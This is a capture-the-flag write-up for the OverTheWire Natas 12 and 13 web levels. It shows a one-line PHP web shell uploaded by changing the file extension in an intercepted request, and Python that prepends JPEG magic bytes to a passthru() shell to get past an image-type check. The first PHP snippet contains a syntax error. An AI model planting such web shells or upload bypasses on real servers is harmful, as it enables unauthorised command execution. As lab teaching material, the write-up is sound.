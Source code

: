 ```yaml
---
layout: post
title: Natas 12 & 13 writeup
date: 2019-03-24
author: th3-3inst3in
categories: overthewire
tags: [web,overthewire]
---
```


## Natas 12

Visit this [link](http://natas12.natas.labs.overthewire.org/) to go to level 12 for which you’ll need the password from the previous level.

You'll land on a page where you can upload a file. Our objective here to upload a php file and get code execution.

The problem is that even if you upload a php file it gets renamed in to a jpg file so we need to intercept the request and change the file extension.

* First name a simple file with the following content

```php
<?php system($_GET['cmd'];) ?>
```

select the file and intercept the request and change the extenion to php as shown in the picture

![intercept](https://mbilalrizwan.github.io/MyCtfWriteups/assets/images/overthewire/natas12intercept.png)

After the file is uploaded you'll be given a link looking something like this 

http://natas12.natas.labs.overthewire.org/upload/<random string>.php

You now have code execution on the server and can simply get the flag with the folloing command


![intercept](https://mbilalrizwan.github.io/MyCtfWriteups/assets/images/overthewire/natas12flag.png)




## Natas 13

Level 13 is quite similar to 12 with one minor change 

Even if we use the trick we did in the last level we don't get the php file to execute on the server reason is the folloing line of code 


```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
```

* exif_imagetype() basically checks the first few bytes of the file to verify its type.
This is a very common way of validating uploaded files you can read more about this function on php.net forms.

The following python code can help bypass this check

```python
>>> fh = open('shell.php', 'w')
>>> fh.write('\xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')
>>> fh.close()
```

The above code basically makes a file which contains the passthru() function to execute commands on the server but the first few bytes of the file will make it seem like its a valid image and hense will bypass the check .
Upload the file and  vola we have your shell.

![13 flag](https://mbilalrizwan.github.io/MyCtfWriteups/assets/images/overthewire/natas13flag.png)
